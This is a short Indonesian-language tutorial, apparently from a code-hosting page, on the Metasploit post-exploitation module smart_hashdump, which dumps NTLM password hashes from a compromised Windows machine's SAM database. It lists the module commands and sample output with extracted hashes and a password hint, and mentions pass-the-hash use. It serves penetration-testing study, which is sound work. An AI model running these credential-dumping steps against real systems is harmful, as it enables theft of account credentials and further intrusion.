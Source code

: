 # smart_hashdump

Module `smart_hashdump` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengekstrak `hash password` dari `SAM` (Security Account Manager) database pada komputer target. Modul ini bekerja setelah akses ke sistem berhasil diperoleh (misalnya via meterpreter dengan privilege SYSTEM) dan secara cerdas menyesuaikan teknik pengambilan hash berdasarkan versi Windows, lalu mengekstrak `hash NTLM` dari akun-akun lokal yang tersimpan, sehingga sangat berguna dalam tahap eskalasi hak akses atau serangan `pass-the-hash`.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/smart_hashdump
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Running module against ADMIN-PC
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /root/.msf4/loot/20250516134518_default_192.168.1.52_windows.hashes_110122.txt
[*] Dumping password hashes...
[*] Running as SYSTEM extracting hashes from registry
[*] 	Obtaining the boot key...
[*] 	Calculating the hboot key using SYSKEY 719ee74fc86782fded26e05e9802b0c9...
[*] 	Obtaining the user list and keys...
[*] 	Decrypting user keys...
[*] 	Dumping password hints...
[+] 	admin:"10101010"
[*] 	Dumping password hashes...
[+] 	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] 	admin:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
[+] 	HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:afd92ce617b3210a7243ac63c8b3cf98:::
[*] Post module execution completed

```
